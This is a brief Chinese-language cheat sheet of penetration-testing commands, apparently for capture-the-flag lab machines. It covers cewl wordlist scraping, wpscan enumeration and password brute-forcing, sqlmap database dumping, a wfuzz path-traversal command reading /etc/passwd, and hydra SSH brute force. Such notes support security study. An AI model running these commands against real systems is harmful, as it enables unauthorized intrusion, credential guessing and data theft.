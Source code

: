 # Others

## Cewl
Collect wordlist

抓取网站内容，提取出其中的单词，放入 `passwd` 文件中，如果没有这个文件，就创建。一般递归深度为 2 ，即抓取网站首页及链接的页面
```sh
cewl http://dc-2/ > password
```
## Wpscan
一款专门用来检测 CMS `Wordpress` 的软件

枚举用户名
```sh
wpscan --url http://loly.lc/wordpress/ --enumerate u
```

根据用户名爆破密码
```sh
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

枚举用户名，插件，再进行密码爆破
```sh
wpscan --url http://funbox.fritz.box/ -e ap,u  --passwords /usr/share/wordlists/rockyou.txt
```

枚举(enumerate)插件(plugin)，主题(theme)，用户(user)
```sh
wpscan --url http://dc-2 -e p,t,u
```

## Sqlmap
POST 传参注入
用 `bp` 将请求包抓下来，然后
```sh
sqlmap -r search.txt
```

爆库
```sh
sqlmap -r search.txt --dbs
```

爆表
```sh
sqlmap -r search.txt -D <database> --tables
```

爆字段
```sh
sqlmap -r search.txt -D <database> -T <table> --columns
```

爆数据
```sh
sqlmap -r search.txt -D <database> -T <table> -C <column1,column2> --dump-all
```

## Wfuzz
```sh
wfuzz --hh 1341 -b "PHPSESSID=v83ig9f6u10pc2h1ht8cvvrn76" -c -w /usr/share/ wordlists/wfuzz/general/common.txt http://192.168.246.209/manage.php?FUZZ =../../../../../../../../etc/passwd
```

## Hydra
曾经有过扫不出来的经历。。。
```sh
hydra -L username.txt -P passwd.txt ssh://192.168.84.130
```

